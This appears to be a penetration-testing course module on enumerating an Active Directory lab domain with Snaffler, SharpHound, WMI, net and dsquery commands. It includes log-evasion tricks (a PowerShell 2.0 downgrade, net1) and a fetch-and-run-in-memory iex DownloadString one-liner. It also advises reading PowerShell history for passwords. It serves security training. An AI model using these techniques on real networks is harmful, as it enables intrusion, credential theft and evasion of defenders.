2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.key$|299B|3/31/2022 12:05:33 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\ShowReset.key) .key
2022-03-31 12:17:19 -07:00 [Share] {Green}(\\ACADEMY-EA-FILE.INLANEFREIGHT.LOCAL\UpdateServicesPackages)
2022-03-31 12:17:19 -07:00 [File] {Black}<KeepExtExactBlack|R|^\.kwallet$|302B|3/31/2022 12:04:45 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\WriteUse.kwallet) .kwallet
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.key$|298B|3/31/2022 12:05:10 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\ProtectStep.key) .key
2022-03-31 12:17:19 -07:00 [File] {Black}<KeepExtExactBlack|R|^\.ppk$|275B|3/31/2022 12:04:40 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\StopTrace.ppk) .ppk
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.key$|301B|3/31/2022 12:09:17 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\WaitClear.key) .key
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.sqldump$|312B|3/31/2022 12:05:30 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\DenyRedo.sqldump) .sqldump
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.sqldump$|310B|3/31/2022 12:05:02 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\AddPublish.sqldump) .sqldump
2022-03-31 12:17:19 -07:00 [Share] {Green}(\\ACADEMY-EA-FILE.INLANEFREIGHT.LOCAL\WsusContent)
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.keychain$|295B|3/31/2022 12:08:42 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\SetStep.keychain) .keychain
2022-03-31 12:17:19 -07:00 [File] {Black}<KeepExtExactBlack|R|^\.tblk$|279B|3/31/2022 12:05:25 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\FindConnect.tblk) .tblk
2022-03-31 12:17:19 -07:00 [File] {Black}<KeepExtExactBlack|R|^\.psafe3$|301B|3/31/2022 12:09:33 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\GetUpdate.psafe3) .psafe3
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.keypair$|278B|3/31/2022 12:09:09 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\UnprotectConvertTo.keypair) .keypair
2022-03-31 12:17:19 -07:00 [File] {Black}<KeepExtExactBlack|R|^\.tblk$|280B|3/31/2022 12:05:17 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\ExportJoin.tblk) .tblk
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.mdf$|305B|3/31/2022 12:09:27 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\FormatShow.mdf) .mdf
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.mdf$|299B|3/31/2022 12:09:14 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\LockConfirm.mdf) .mdf
<SNIP>
You may find passwords, SSH keys, config files, or other data that can be used to further your access. Snaffler color codes the output for you and provides you with a rundown of the file types found in the shares.
BloodHound
... is an exceptional open-source tool that can identify attack paths within an AD environment by analyzing the relationships between objects.
First, you must authenticate as a domain user from a Windows attack host positioned within the network or transfer the tool to a domain-joined host.
You start by running the SharpHound.exe collector.
PS C:\htb> .\SharpHound.exe -c All --zipfilename ILFREIGHT
2022-04-18T13:58:22.1163680-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-04-18T13:58:22.1163680-07:00|INFORMATION|Initializing SharpHound at 1:58 PM on 4/18/2022
2022-04-18T13:58:22.6788709-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-04-18T13:58:23.0851206-07:00|INFORMATION|Beginning LDAP search for INLANEFREIGHT.LOCAL
2022-04-18T13:58:53.9132950-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 67 MB RAM
2022-04-18T13:59:15.7882419-07:00|INFORMATION|Producer has finished, closing LDAP channel
2022-04-18T13:59:16.1788930-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-04-18T13:59:23.9288698-07:00|INFORMATION|Status: 3793 objects finished (+3793 63.21667)/s -- Using 112 MB RAM
2022-04-18T13:59:45.4132561-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2022-04-18T13:59:45.4601086-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2022-04-18T13:59:45.8663528-07:00|INFORMATION|Status: 3809 objects finished (+16 46.45122)/s -- Using 110 MB RAM
2022-04-18T13:59:45.8663528-07:00|INFORMATION|Enumeration finished in 00:01:22.7919186
2022-04-18T13:59:46.3663660-07:00|INFORMATION|SharpHound Enumeration Completed at 1:59 PM on 4/18/2022! Happy Graphing
Next, you can exfiltrate the dataset to your own VM or ingest it into the BloodHound GUI tool.
Living Off the Land
Env Commands for Host & Network Recon
First, a few basic environmental comannds can be used to give you more information about the host you are on.
| Command | Result |
|---|---|
hostname | prints the PC's name |
[System.Environment]::OSVersion.Version | prints out the OS version and revision level |
wmic qfe get Caption,Description,HotFixID,InstalledOn | prints the patches and hotfixes applied to the host |
ipconfig /all | prints out network adapter state and config |
echo %USERDOMAIN% | displays the domain name to which the host belongs |
echo %logonserver% | prints out the name of the DC the host checks in with |
The commands above will give you a quick initial picture of the state the host is in, as well as some basic networking and domain information. You can cover the information above with one command systeminfo.

The systeminfo command, as seen above, will print a summary of the host's information for you in one tidy output.
tip
Running one command will generate fewer logs, meaning less of a chance you are noticed on the host by a defender.
Harnessing PowerShell
Quick Checks
PowerShell has been around since 2006 and provides Windows sysadmins with an extensive framework for administering all facets of Windows systems and AD environments. It is a powerful scripting language and can be used to dig deep into systems. PowerShell has many built-in functions and modules you can use on an engagement to recon the host and network and send and receive files.
Some helpful PowerShell cmdlets:
| cmdlet | Description |
|---|---|
Get-Module | lists available modules loaded for use |
Get-ExecutionPolicy -List | will print the execution policy settings for each scope on a host |
Set-ExecutionPolicy Bypass -Scope Process | this will change the policy for your current process using the -Scope parameter; doing so will revert the policy once you vacate the process or terminate it; this is ideal because you won't be making permanent change to the victim host |
Get-ChildItem Env: | ft Key,Value | return environment values such as key paths, users, computer information, etc. |
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt | with this string, you can get the specified user's PowerShell history; this can be quite helpful as the command history may contain passwords or point you towards configuration files or scripts that contain passwords |
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>" | this is a quick and easy way to download a file from the web using PowerShell and call it from memory |
PS C:\htb> Get-Module
ModuleType Version Name ExportedCommands
---------- ------- ---- ----------------
Manifest 1.0.1.0 ActiveDirectory {Add-ADCentralAccessPolicyMember, Add-ADComputerServiceAcc...
Manifest 3.1.0.0 Microsoft.PowerShell.Utility {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script 2.0.0 PSReadline {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...
PS C:\htb> Get-ExecutionPolicy -List
Get-ExecutionPolicy -List
Scope ExecutionPolicy
----- ---------------
MachinePolicy Undefined
UserPolicy Undefined
Process Undefined
CurrentUser Undefined
LocalMachine RemoteSigned
PS C:\htb> whoami
nt authority\system
PS C:\htb> Get-ChildItem Env: | ft key,value
Get-ChildItem Env: | ft key,value
Key Value
--- -----
ALLUSERSPROFILE C:\ProgramData
APPDATA C:\Windows\system32\config\systemprofile\AppData\Roaming
CommonProgramFiles C:\Program Files (x86)\Common Files
CommonProgramFiles(x86) C:\Program Files (x86)\Common Files
CommonProgramW6432 C:\Program Files\Common Files
COMPUTERNAME ACADEMY-EA-MS01
ComSpec C:\Windows\system32\cmd.exe
DriverData C:\Windows\System32\Drivers\DriverData
LOCALAPPDATA C:\Windows\system32\config\systemprofile\AppData\Local
NUMBER_OF_PROCESSORS 4
OS Windows_NT
Path C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShel...
PATHEXT .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC;.CPL
PROCESSOR_ARCHITECTURE x86
PROCESSOR_ARCHITEW6432 AMD64
PROCESSOR_IDENTIFIER AMD64 Family 23 Model 49 Stepping 0, AuthenticAMD
PROCESSOR_LEVEL 23
PROCESSOR_REVISION 3100
ProgramData C:\ProgramData
ProgramFiles C:\Program Files (x86)
ProgramFiles(x86) C:\Program Files (x86)
ProgramW6432 C:\Program Files
PROMPT $P$G
PSModulePath C:\Program Files\WindowsPowerShell\Modules;WindowsPowerShell\Modules;C:\Program Files (x86)\...
PUBLIC C:\Users\Public
SystemDrive C:
SystemRoot C:\Windows
TEMP C:\Windows\TEMP
TMP C:\Windows\TEMP
USERDOMAIN INLANEFREIGHT
USERNAME ACADEMY-EA-MS01$
USERPROFILE C:\Windows\system32\config\systemprofile
windir C:\Windows
Downgrade PowerShell
Many defenders are unaware that several versions of PowerShell often exist on a host. If not uninstalled, they can still be used. PowerShell event logging was introduced with PowerShell 3.0 and forward. With that in mind, you can attempt to call PowerShell version 2.0 or older. If successful, your actions from the shell will not be logged in Event Viewer. This is a great way for you to remain under the defenders' radar while still utilizing resources built into the hosts to your advantage. Below is an example of downgrading PowerShell.
PS C:\htb> Get-host
Name : ConsoleHost
Version : 5.1.19041.1320
InstanceId : 18ee9fb4-ac42-4dfe-85b2-61687291bbfc
UI : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture : en-US
CurrentUICulture : en-US
PrivateData : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
DebuggerEnabled : True
IsRunspacePushed : False
Runspace : System.Management.Automation.Runspaces.LocalRunspace
PS C:\htb> powershell.exe -version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
PS C:\htb> Get-host
Name : ConsoleHost
Version : 2.0
InstanceId : 121b807c-6daa-4691-85ef-998ac137e469
UI : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture : en-US
CurrentUICulture : en-US
PrivateData : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
IsRunspacePushed : False
Runspace : System.Management.Automation.Runspaces.LocalRunspace
PS C:\htb> get-module
ModuleType Version Name ExportedCommands
---------- ------- ---- ----------------
Script 0.0 chocolateyProfile {TabExpansion, Update-SessionEnvironment, refreshenv}
Manifest 3.1.0.0 Microsoft.PowerShell.Management {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Content...}
Manifest 3.1.0.0 Microsoft.PowerShell.Utility {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script 0.7.3.1 posh-git {Add-PoshGitToProfile, Add-SshKey, Enable-GitColors, Expand-GitCommand...}
Script 2.0.0 PSReadline {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PSReadLineKeyHandler...
You can now see that you are running an older version of PowerShell from the output above. Notice the differece in the version reported. It validates you have successfully downgraded the shell. Check and see if you are still writing logs. The primary place to look is in the PowerShell Operational Log found under Applications and Services Logs > Microsoft > Windows > PowerShell > Operational. All commands executed in your session will log to this file. The Windows PowerShell log located at Applications and Services Logs > Windows PowerShell is also a good place to check. An entry will be made here when you start an instance of PowerShell. In the image below, you can see the red entries made to the log from the current PowerShell session and the output of the last entry made at 2:12 pm when the downgrade is performed. It was the last entry since your session moved into a version of PowerShell no longer capable of logging. Notice that, that event corresponds with the last event in the Windows PowerShell log entries.

With Script Blocking Language enabled, you can see that whatever you type into the terminal gets sent to this log. If you downgrade to PowerShell V2, this will no longer function correctly. Your actions after will be masked since Script Block Logging does not work below PowerShell 3.0. Notice above in the logs that you can see the commands you issued during a normal shell session, but it stopped after starting a new PowerShell instance in version 2. Be aware that the action of issuing the command powershell.exe -version 2 within the PowerShell session will be logged. So evidence will be left behind showing that the downgrade happened, and a suspicious or vigilant defender may start an investigation after seeing this happen and the logs no longer filling up for that instance. You can see an example of this in the image below. Items in the red box are the log entries before starting the new instance, and the info in the green is the text showing a new PowerShell session was started in HostVersion 2.0.

Checking Defenses
Firewall Checks
PS C:\htb> netsh advfirewall show allprofiles
Domain Profile Settings:
----------------------------------------------------------------------
State OFF
Firewall Policy BlockInbound,AllowOutbound
LocalFirewallRules N/A (GPO-store only)
LocalConSecRules N/A (GPO-store only)
InboundUserNotification Disable
RemoteManagement Disable
UnicastResponseToMulticast Enable
Logging:
LogAllowedConnections Disable
LogDroppedConnections Disable
FileName %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize 4096
Private Profile Settings:
----------------------------------------------------------------------
State OFF
Firewall Policy BlockInbound,AllowOutbound
LocalFirewallRules N/A (GPO-store only)
LocalConSecRules N/A (GPO-store only)
InboundUserNotification Disable
RemoteManagement Disable
UnicastResponseToMulticast Enable
Logging:
LogAllowedConnections Disable
LogDroppedConnections Disable
FileName %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize 4096
Public Profile Settings:
----------------------------------------------------------------------
State OFF
Firewall Policy BlockInbound,AllowOutbound
LocalFirewallRules N/A (GPO-store only)
LocalConSecRules N/A (GPO-store only)
InboundUserNotification Disable
RemoteManagement Disable
UnicastResponseToMulticast Enable
Logging:
LogAllowedConnections Disable
LogDroppedConnections Disable
FileName %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize 4096
Windows Defender Check
C:\htb> sc query windefend
SERVICE_NAME: windefend
TYPE : 10 WIN32_OWN_PROCESS
STATE : 4 RUNNING
(STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
WIN32_EXIT_CODE : 0 (0x0)
SERVICE_EXIT_CODE : 0 (0x0)
CHECKPOINT : 0x0
WAIT_HINT : 0x0
Above, you checked if Defender was running.
Get-MpComputerStatus
Below you will check the status and configuration settings.
PS C:\htb> Get-MpComputerStatus
AMEngineVersion : 1.1.19000.8
AMProductVersion : 4.18.2202.4
AMRunningMode : Normal
AMServiceEnabled : True
AMServiceVersion : 4.18.2202.4
AntispywareEnabled : True
AntispywareSignatureAge : 0
AntispywareSignatureLastUpdated : 3/21/2022 4:06:15 AM
AntispywareSignatureVersion : 1.361.414.0
AntivirusEnabled : True
AntivirusSignatureAge : 0
AntivirusSignatureLastUpdated : 3/21/2022 4:06:16 AM
AntivirusSignatureVersion : 1.361.414.0
BehaviorMonitorEnabled : True
ComputerID : FDA97E38-1666-4534-98D4-943A9A871482
ComputerState : 0
DefenderSignaturesOutOfDate : False
DeviceControlDefaultEnforcement : Unknown
DeviceControlPoliciesLastUpdated : 3/20/2022 9:08:34 PM
DeviceControlState : Disabled
FullScanAge : 4294967295
FullScanEndTime :
FullScanOverdue : False
FullScanRequired : False
FullScanSignatureVersion :
FullScanStartTime :
IoavProtectionEnabled : True
IsTamperProtected : True
IsVirtualMachine : False
LastFullScanSource : 0
LastQuickScanSource : 2
<SNIP>
Knowing what revision your AV settings are at and what settings are enabled/disabled can greatly benefit you. You can tell how often scans are run, if the on-demand threat alerting is active, and more. This is also great info for reporting. Often defenders may think that certain settings are enabled or scans are scheduled to run at certain intervals. If that's not the case, these findings can help them remediate those issues.
Am I Alone?
WHen landing on a host for the first time, one important thing is to check if you are the only one logged in. If you start taking actions from a host someone else is on, there is the potential for them to notice you. If a popup window launches or a user is logged out of their session, they may report these actions or change their password, and you could lose your foothold.
PS C:\htb> qwinsta
SESSIONNAME USERNAME ID STATE TYPE DEVICE
services 0 Disc
>console forend 1 Active
rdp-tcp 65536 Listen
Network Information
Now that you have a solid feel for the state of your host, you can enumerate the network settings for your host and identify any potential domain machines or services you may want to target next.
| Networking Command | Description |
|---|---|
arp -a | lists all known hosts stored in the arp table |
ipconfig /all | prints out adapter settings for the host; you can figure out the network segment from here |
route print | displays the routing table identifying known networks and layer three routes shared with the host |
netsh advfirewall show allprofiles | displays the status of the host's firewall; you can determine if it is active and filtering traffic |
Commands such as ipconfig /all and systeminfo show you some basic networking configs. Two more important commands provide you with a ton of valuable data and could help you further your access. arp -a and route print will show you what hosts the box you are on is aware of and what networks are known to the host. Any networks that appear in the routing table are potential avenues for lateral movement because they are accessed enough that a route was added, or it has administratively been set there so that the host knows how to access resources on the domain. These two commands can be escpecially helpful in the discovery phase of a black box assessment where you have to limit your scanning.
arp -a
PS C:\htb> arp -a
Interface: 172.16.5.25 --- 0x8
Internet Address Physical Address Type
172.16.5.5 00-50-56-b9-08-26 dynamic
172.16.5.130 00-50-56-b9-f0-e1 dynamic
172.16.5.240 00-50-56-b9-9d-66 dynamic
224.0.0.22 01-00-5e-00-00-16 static
224.0.0.251 01-00-5e-00-00-fb static
224.0.0.252 01-00-5e-00-00-fc static
239.255.255.250 01-00-5e-7f-ff-fa static
Interface: 10.129.201.234 --- 0xc
Internet Address Physical Address Type
10.129.0.1 00-50-56-b9-b9-fc dynamic
10.129.202.29 00-50-56-b9-26-8d dynamic
10.129.255.255 ff-ff-ff-ff-ff-ff static
224.0.0.22 01-00-5e-00-00-16 static
224.0.0.251 01-00-5e-00-00-fb static
224.0.0.252 01-00-5e-00-00-fc static
239.255.255.250 01-00-5e-7f-ff-fa static
255.255.255.255 ff-ff-ff-ff-ff-ff static
route print
PS C:\htb> route print
===========================================================================
Interface List
8...00 50 56 b9 9d d9 ......vmxnet3 Ethernet Adapter #2
12...00 50 56 b9 de 92 ......vmxnet3 Ethernet Adapter
1...........................Software Loopback Interface 1
===========================================================================
IPv4 Route Table
===========================================================================
Active Routes:
Network Destination Netmask Gateway Interface Metric
0.0.0.0 0.0.0.0 172.16.5.1 172.16.5.25 261
0.0.0.0 0.0.0.0 10.129.0.1 10.129.201.234 20
10.129.0.0 255.255.0.0 On-link 10.129.201.234 266
10.129.201.234 255.255.255.255 On-link 10.129.201.234 266
10.129.255.255 255.255.255.255 On-link 10.129.201.234 266
127.0.0.0 255.0.0.0 On-link 127.0.0.1 331
127.0.0.1 255.255.255.255 On-link 127.0.0.1 331
127.255.255.255 255.255.255.255 On-link 127.0.0.1 331
172.16.4.0 255.255.254.0 On-link 172.16.5.25 261
172.16.5.25 255.255.255.255 On-link 172.16.5.25 261
172.16.5.255 255.255.255.255 On-link 172.16.5.25 261
224.0.0.0 240.0.0.0 On-link 127.0.0.1 331
224.0.0.0 240.0.0.0 On-link 10.129.201.234 266
224.0.0.0 240.0.0.0 On-link 172.16.5.25 261
255.255.255.255 255.255.255.255 On-link 127.0.0.1 331
255.255.255.255 255.255.255.255 On-link 10.129.201.234 266
255.255.255.255 255.255.255.255 On-link 172.16.5.25 261
===========================================================================
Persistent Routes:
Network Address Netmask Gateway Address Metric
0.0.0.0 0.0.0.0 172.16.5.1 Default
===========================================================================
IPv6 Route Table
===========================================================================
<SNIP>
Windows Management Instrumentation (WMI)
... is a scripting engine that is widely used within Windows enterprise environments to retrieve information and run administrative tasks on local and remote hosts.
| Command | Description |
|---|---|
wmic qfe get Caption,Description,HotFixID,InstalledOn | prints the patch level and description of the Hotfixes applied |
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List | displays basic host information to include any attributes within the list |
wmic process list /format:list | a listing of all processes on host |
wmic ntdomain list /format:list | displays information about the domain and DCs |
wmic useraccount list /format:list | displays information about all local accounts and any domain accounts that have logged into the device |
wmic group list /format:list | information about all local groups |
wmic sysaccount list /format:list | dumps information about any system accounts that are being used as service accounts |
Below you can see information about the domain and the child domain, and the external forest that your current domain has a trust with. Read this cheatsheet.
PS C:\htb> wmic ntdomain get Caption,Description,DnsForestName,DomainName,DomainControllerAddress
Caption Description DnsForestName DomainControllerAddress DomainName
ACADEMY-EA-MS01 ACADEMY-EA-MS01
INLANEFREIGHT INLANEFREIGHT INLANEFREIGHT.LOCAL \\172.16.5.5 INLANEFREIGHT
LOGISTICS LOGISTICS INLANEFREIGHT.LOCAL \\172.16.5.240 LOGISTICS
FREIGHTLOGISTIC FREIGHTLOGISTIC FREIGHTLOGISTICS.LOCAL \\172.16.5.238 FREIGHTLOGISTIC
Net Commands
... can be beneficial to you when attempting to enumerate information from the domain. These commands can be used to query the local host and remote hosts, much like the capabilities provided by WMI. You can list information such as:
- local and domain users
- groups
- hosts
- specific users in groups
- domain controllers
- password requirements
Keep in mind that net.exe commands are typically monitored by EDR solutions and can quickly give up your location if your assessment has an evasive component. Some organizations will even configure their monitoring tools to throw alerts if certain commands are run by users in specific OUs, such as a Marketing Associate's account running commands such as whoami, and net localgroup administrators, etc. This could be an obvious red flag to everyone monitoring the network heavily.
Listing Domain Groups
PS C:\htb> net group /domain
The request will be processed at a domain controller for domain INLANEFREIGHT.LOCAL.
Group Accounts for \\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
-------------------------------------------------------------------------------
*$H25000-1RTRKC5S507F
*Accounting
*Barracuda_all_access
*Barracuda_facebook_access
*Barracuda_parked_sites
*Barracuda_youtube_exempt
*Billing
*Billing_users
*Calendar Access
*CEO
*CFO
*Cloneable Domain Controllers
*Collaboration_users
*Communications_users
*Compliance Management
*Computer Group Management
*Contractors
*CTO
<SNIP>
You can see above the net group command provided you with a list of groups within the domain.
Information about a Domain User
PS C:\htb> net user /domain wrouse
The request will be processed at a domain controller for domain INLANEFREIGHT.LOCAL.
User name wrouse
Full Name Christopher Davis
Comment
User's comment
Country/region code 000 (System Default)
Account active Yes
Account expires Never
Password last set 10/27/2021 10:38:01 AM
Password expires Never
Password changeable 10/28/2021 10:38:01 AM
Password required Yes
User may change password Yes
Workstations allowed All
Logon script
User profile
Home directory
Last logon Never
Logon hours allowed All
Local Group Memberships
Global Group memberships *File Share G Drive *File Share H Drive
*Warehouse *Printer Access
*Domain Users *VPN Users
*Shared Calendar Read
The command completed successfully.
Net Commands Trick
If you believe the network defenders are actively logging/looking for any commands out of the normal, you can try this workaround to using net commands. Typing net1 instead of net will execute the same functions without the potential trigger from the net string.
Dsquery
... is a helpful command-line tool that can be utilized to find AD objects. The queries you run with this tool can be easily replicated with tools like BloodHound and PowerView, but you may not always have those tools at your disposal. But, it is a likely tool that domain sysadmins are utilizing in their environment. With that in mind, dsquery will exist on any host with the AD Domain Services Role installed, and the dsquery DLL exists on all modern Windows systems by default now and can be found at C:\Windows\System32\dsquery.dll.
All you need is elevated privileges on a host or the ability to run an instance of Command Prompt or PowerShell from a SYSTEM context. Below, there is the basic search function with dsquery and a few helpful search filters.
User Search
PS C:\htb> dsquery user
"CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Guest,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=lab_adm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=krbtgt,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Htb Student,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Annie Vazquez,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Paul Falcon,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Fae Anthony,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Walter Dillard,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Louis Bradford,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Sonya Gage,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Alba Sanchez,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Daniel Branch,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Christopher Cruz,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Nicole Johnson,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Mary Holliday,OU=Human Resources,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Michael Shoemaker,OU=Human Resources,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Arlene Slater,OU=Human Resources,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Kelsey Prentiss,OU=Human Resources,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
Computer Search
PS C:\htb> dsquery computer
"CN=ACADEMY-EA-DC01,OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL"
"CN=ACADEMY-EA-MS01,OU=Web Servers,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=ACADEMY-EA-MX01,OU=Mail,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=SQL01,OU=SQL Servers,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=ILF-XRG,OU=Critical,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=MAINLON,OU=Critical,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=CISERVER,OU=Critical,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=INDEX-DEV-LON,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=SQL-0253,OU=SQL Servers,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0615,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0616,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0617,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0618,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0619,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0620,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0621,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0622,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0623,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=LON-0455,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=LON-0456,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=LON-0457,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=LON-0458,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
Wildcard Search
You can use a dsquery wildcard search to view all objects in an OU, for example.
PS C:\htb> dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=krbtgt,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Computers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Controllers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Schema Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Cert Publishers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Guests,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Group Policy Creator Owners,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=RAS and IAS Servers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Allowed RODC Password Replication Group,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
